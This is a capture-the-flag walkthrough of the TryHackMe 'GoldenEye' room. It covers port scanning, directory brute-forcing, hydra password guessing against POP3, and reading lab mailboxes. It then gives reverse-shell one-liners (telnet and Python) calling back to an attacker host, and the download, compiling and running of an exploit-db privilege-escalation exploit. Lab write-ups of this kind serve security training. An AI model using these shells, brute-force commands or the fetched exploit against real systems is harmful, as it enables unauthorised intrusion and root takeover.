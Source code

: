 # GoldenEye

**Room Link:** [https://tryhackme.com/room/goldeneye](https://tryhackme.com/room/goldeneye)



## Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## TCP/80 - HTTP

**Kali**

```
gobuster dir -u $VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```



<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We find a encoded password and also a potential other user, Natalya.

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I can login to /sev-home now



```
Username: boris
Password: InvincibleHack3r
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## TCP/55007 - POP3

**Kali**

```
telnet $VICTIM 55007
USER boris
PASS InvincibleHack3r
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
hydra -l natalya -P /usr/share/wordlists/fasttrack.txt pop3://$VICTIM:55007
```

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
hydra -l boris -P /usr/share/wordlists/fasttrack.txt pop3://$VICTIM:55007
```

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>





**Kali**

```
telnet $VICTIM 55007
USER natalya
PASS bird
RETR 1
RETR 2
```

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

New password still doesn't work but maybe can be used elsewhere.

**Kali**

```
telnet $VICTIM 55007
USER boris
PASS secret1!
RETR 1
RETR 2
RETR 3
```

<figure><img src="../../.gitbook/assets/image (15) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (16) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (17) (1) (1).png" alt=""><figcaption></figcaption></figure>





Added severnaya-station.com to my hosts file and then navigated to http://severnaya-station.com/gnocertdir as mentioned in the email

```
username: xenia
password: RCP90rulez!
```

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (18) (1).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (19) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
hydra -l doak -P /usr/share/wordlists/fasttrack.txt pop3://$VICTIM:55007
```



**Kali**

```
telnet $VICTIM 55007
USER doak
PASS goat
RETR 1
```

<figure><img src="../../.gitbook/assets/image (20) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (610).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (611).png" alt=""><figcaption></figcaption></figure>







<figure><img src="../../.gitbook/assets/image (612).png" alt=""><figcaption></figcaption></figure>



**Kali**

```
exiftool for-007.jpg 
echo 'eFdpbnRlcjE5OTV4IQ==' | base64 -d 
```

<figure><img src="../../.gitbook/assets/image (613).png" alt=""><figcaption></figcaption></figure>



It was the password for admin

```
Username: admin
Password: xWinter1995x!
```



## **Initial Shell**

**Kali**

```
nc -lvnp 4444
```

**Browser**

```
sh -c '(sleep 4062|telnet $KALI 4444|while : ; do sh && break; done 2>&1|telnet $KALI 4444 >/dev/null 2>&1 &)'
```

<figure><img src="../../.gitbook/assets/image (616).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (617).png" alt=""><figcaption></figcaption></figure>

It kind of worked but the shell kept breaking so I switched it to a python one and did the same thing.

**Kali**

<pre><code><strong>nc -lvnp 4444
</strong></code></pre>

**Browser**

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$KALI",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

<figure><img src="../../.gitbook/assets/image (618).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (619).png" alt=""><figcaption></figcaption></figure>



Get autocomplete

```
python -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```





### Privlege Escalation

Just changed below line from gcc to cc as gcc is not installed on the host

**Kali**

```
wget https://www.exploit-db.com/raw/37292 -O ofs.c 
python2 -m SimpleHTTPServer 81
```

<figure><img src="../../.gitbook/assets/image (620).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
cd /tmp/
wget http://$KALI:81/ofs.c 
id
cc ofs.c -o ofs
./ofs
id
whoami
```

<figure><img src="../../.gitbook/assets/image (621).png" alt=""><figcaption></figcaption></figure>

